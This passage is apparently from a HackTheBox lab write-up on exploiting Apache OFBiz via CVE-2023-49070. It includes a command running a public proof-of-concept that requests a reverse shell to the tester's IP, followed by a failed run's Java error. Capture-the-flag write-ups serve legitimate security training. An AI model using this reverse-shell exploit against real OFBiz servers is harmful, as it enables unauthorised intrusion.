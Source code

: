 ![](_/htb-bizness-20240108-1.png)

[Apache OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) is an "enterprise resource planning" (ERP) system. Something to do with integrating business processes.

Via `searchsploit`, maybe this?:

```console
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE) | java/webapps/50178.sh
```

## RCE

There is a [pre-auth RCE in Apache Ofboz 18.12.09](https://nvd.nist.gov/vuln/detail/CVE-2023-49070). A [POC is available](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC); the RCE exploit that came back from `searchsploit` is _not_ correct for this machine.

```console
$ python3 ./x.py https://bizness.htb/control shell 10.10.14.12:443
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0xb121a86) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0xb121a86
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
Please make sure from data
^ rc=1

$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 21.0.2 2024-01-16
OpenJDK Runtime Environment (build 21.0.2+13-Debian-2)
OpenJDK 64-Bit Server VM (build 21.0.2+13-Debian-2, mixed mode, sharing)
```
